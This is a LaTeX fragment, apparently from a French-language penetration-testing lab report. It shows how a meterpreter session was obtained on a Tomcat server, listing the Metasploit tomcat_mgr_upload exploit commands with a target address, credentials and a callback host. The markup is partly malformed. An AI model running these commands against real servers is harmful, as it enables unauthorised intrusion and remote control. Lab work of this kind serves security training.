 \documentclass[a4paper]{article}
\begin{document}
\begin{enumerate}
\begin{figure}[H]
        \caption{Succès du gain de session meterpreter via Tomcat manuellement}
        \label{fig:successTomcat}
    \end{figure}
    \item Et voici une autre manière de gagner une session meterpreter avec un module metasploit.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize search tomcat exploit}
            \item \texttt{\footnotesize use exploits/multi/http/tomcat\_mgr\_upload}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set RPORT 8282}
            \item \texttt{\footnotesize set HttpPassword sploit}
            \item \texttt{\footnotesize set HttpUsername sploit}
            \item \texttt{\footnotesize set LHOST 192.168.1.3}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Le résultat est un \textcolor{blue}{\textbf{succès}}, comme vous pouvez le voir sur la figure \ref{fig:success2Tomcat}.
    \end{example}
    \begin{figure}[H]
        \centering
        \includegraphics[width=0.95\linewidth]{images/backdoor-tomcat-02.PNG}

\end{figure}
\end{enumerate}
\end{document}
